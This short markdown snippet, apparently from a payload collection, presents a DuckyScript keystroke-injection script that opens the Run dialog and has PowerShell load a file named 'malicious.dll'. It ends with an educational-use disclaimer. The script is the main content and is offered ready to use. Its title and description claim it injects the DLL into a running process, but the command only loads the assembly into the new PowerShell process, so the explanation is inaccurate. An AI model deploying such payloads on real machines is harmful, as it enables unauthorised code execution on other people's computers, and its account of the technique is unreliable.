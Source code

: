 # Injecting a DLL into a Running Process

Injects a malicious DLL into a running process using PowerShell.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "[System.Reflection.Assembly]::LoadFrom('C:\\path\\to\\malicious.dll')"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.